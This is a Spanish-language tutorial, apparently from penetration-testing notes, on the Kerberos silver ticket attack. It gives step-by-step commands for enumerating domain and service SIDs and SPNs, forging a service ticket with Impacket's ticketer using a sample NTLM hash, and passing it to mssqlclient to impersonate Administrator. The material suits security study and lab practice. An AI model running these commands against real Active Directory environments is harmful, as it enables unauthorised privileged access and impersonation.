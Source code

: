 # Ataque Silver Ticket

Un ataque de *silver ticket* consiste en forjar un ticket de servicio Kerberos para obtener acceso no autorizado a un servicio específico en un servidor. A diferencia de un *golden ticket*, que permite acceso a cualquier recurso del dominio, el *silver ticket* se enfoca en un servicio concreto (por ejemplo, MSSQL) y puede usarse para hacerse pasar por un administrador u otra cuenta privilegiada en ese servicio.

## Requisitos

Para realizar un ataque de *silver ticket*, necesitas lo siguiente:

- **Hash NTLM de la cuenta de servicio**: El hash de la cuenta asociada al servicio objetivo (por ejemplo, la cuenta de servicio de MSSQL).
- **SID del dominio**: El identificador de seguridad (SID) del dominio de Active Directory.
- **SID de la cuenta de servicio**: El SID de la cuenta de servicio.
- **Nombre del servicio**: El nombre del servicio principal de Kerberos (SPN) del servicio objetivo (por ejemplo, MSSQLSvc).
- **Nombre del dominio**: El nombre de dominio completo (FQDN) de Active Directory.
- **Nombre del servidor**: El FQDN del servidor que aloja el servicio.

### Comandos para Obtener la Información Requerida (Sin Permisos de Administrador)

1. **Obtener el hash NTLM de la cuenta de servicio**:
   - Sin permisos de administrador, puedes intentar obtener el hash NTLM de la cuenta de servicio mediante técnicas como:
     - **Kerberoasting**: [articulo acá](./kerberoasting.md)
     - Si conocemos la contraseña en texto plano podemos generar el hash NTLM: [versión web](https://codebeautify.org/ntlm-hash-generator)
       ```bash
       echo -n "<CONTRASEÑA>" | iconv -t UTF16LE | openssl dgst -md4
       ```
2. **Obtener el SID del dominio**:
   - Usa `ldapsearch` o herramientas de enumeración como `rpcclient` con credenciales de usuario estándar.
     ```bash
     rpcclient -U "<DOMINIO>/<USUARIO>%<CONTRASEÑA>" <DC_IP>
     rpcclient> lookupnames <NOMBRE_DOMINIO>
     ```
     - El SID del dominio tiene el formato `S-1-5-21-<números_específicos_del_dominio>`.
     - Alternativamente, con PowerShell (si tienes acceso):
       ```powershell
       [System.Security.Principal.WindowsIdentity]::GetCurrent().User.AccountDomainSid
       ```

3. **Obtener el SID de la cuenta de servicio**:
   - Usa `rpcclient` para enumerar el SID de la cuenta de servicio.
     ```bash
     rpcclient -U "<DOMINIO>/<USUARIO>%<CONTRASEÑA>" <DC_IP>
     rpcclient> lookupnames <NOMBRE_CUENTA_SERVICIO>
     ```
     - El SID de la cuenta de servicio es el SID del dominio más un identificador relativo (RID), por ejemplo, `S-1-5-21-<números_específicos_del_dominio>-<RID>`.
     - Alternativamente, con PowerShell:
       ```powershell
       Get-ADUser -Identity <NOMBRE_CUENTA_SERVICIO> -Server <DC_FQDN> | Select-Object SID
       ```

4. **Identificar el nombre del servicio**:
   - Enumera los SPN del servicio objetivo con `setspn` o consultas LDAP.
     ```bash
     setspn -T <DOMINIO> -Q */*
     ```
     - Busca el SPN, por ejemplo, `MSSQLSvc/<SERVIDOR_FQDN>:<PUERTO>` para MSSQL.
     - Con PowerShell:
       ```powershell
       Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties ServicePrincipalName | Where-Object { $_.ServicePrincipalName -like "*<SERVICIO>*" }
       ```

5. **Nombre del dominio**:
   - Es el FQDN del dominio, por ejemplo, `example.com`. Esto suele obtenerse durante la enumeración inicial.

6. **Nombre del servidor**:
   - El FQDN del servidor que aloja el servicio, por ejemplo, `sqlserver.example.com`. Se obtiene del SPN o mediante enumeración de red.

## Forjar el Silver Ticket con Impacket

1. **Crear el Silver Ticket**:
   - Usa `ticketer.py` de Impacket para forjar el ticket Kerberos.
     ```bash
     python3 ticketer.py -nthash <NTLM_HASH> -domain-sid <SID_DOMINIO> -domain <NOMBRE_DOMINIO> -spn <NOMBRE_SERVICIO> -user-id <RID_CUENTA_SERVICIO> <USUARIO_OBJETIVO>
     ```
     - Parámetros:
       - `-nthash`: El hash NTLM de la cuenta de servicio.
       - `-domain-sid`: El SID del dominio (sin el RID).
       - `-domain`: El FQDN del dominio (por ejemplo, `example.com`).
       - `-spn`: El nombre del servicio principal (por ejemplo, `MSSQLSvc/sqlserver.example.com:1433`).
       - `-user-id`: El RID de la cuenta de servicio (la última parte del SID de la cuenta).
       - `<USUARIO_OBJETIVO>`: El usuario a impersonar (por ejemplo, `Administrator`).
     - Ejemplo:
       ```bash
       impacket-ticketer -nthash e3a0168bc21cfb88b95c954a5b18f57c -domain-sid S-1-5-21-1969309164-1513403977-1686805993 -domain nagoya-industries.com -spn MSSQL/nagoya-industries.com -user-id 500 Administrator
       ```
    - El user id 500 es el RID de la cuenta de administrador.
     - Esto genera un archivo `.ccache` con el ticket forjado.

2. **Configurar la variable de entorno para el ticket Kerberos**:
   - Exporta el ticket para usarlo con otras herramientas de Impacket.
     ```bash
     export KRB5CCNAME={PWD}/<nombre_ticket>.ccache
     ```

3. **Realizar Pass-the-Ticket (PTT)**:
   - Usa una herramienta de Impacket como `mssqlclient.py`, `psexec.py` o `smbexec.py` para acceder al servicio objetivo con el ticket forjado.
     - Ejemplo para MSSQL:
       ```bash
       python3 mssqlclient.py -k <DOMINIO>/<USUARIO_OBJETIVO>@<SERVIDOR_FQDN> -dc-ip <DC_IP>
       ```
       - `-k`: Indica autenticación Kerberos usando el ticket en `KRB5CCNAME`.
       - Ejemplo:
         ```bash
         python3 mssqlclient.py -k example/Administrator@sqlserver.example.com -dc-ip 192.168.1.10
         ```
       - Esto conecta al servicio MSSQL como el usuario impersonado (por ejemplo, `Administrator`).

## Notas
- Asegúrate de que el reloj del sistema esté sincronizado con el controlador de dominio para evitar problemas con los tickets Kerberos.
    - Comando: `sudo ntpdate -u <IP_DC>` 
- El ticket forjado solo es válido para el servicio y servidor especificados.
- Prueba el ticket con herramientas como `mssqlclient.py` para MSSQL o con otras herramientas de Impacket para diferentes servicios (por ejemplo, `psexec.py` para CIFS).
- Si el ticket falla, verifica la precisión del SPN, el hash y los SIDs.
- Sin permisos de administrador, el éxito del ataque depende de obtener el hash NTLM mediante técnicas como *Kerberoasting*.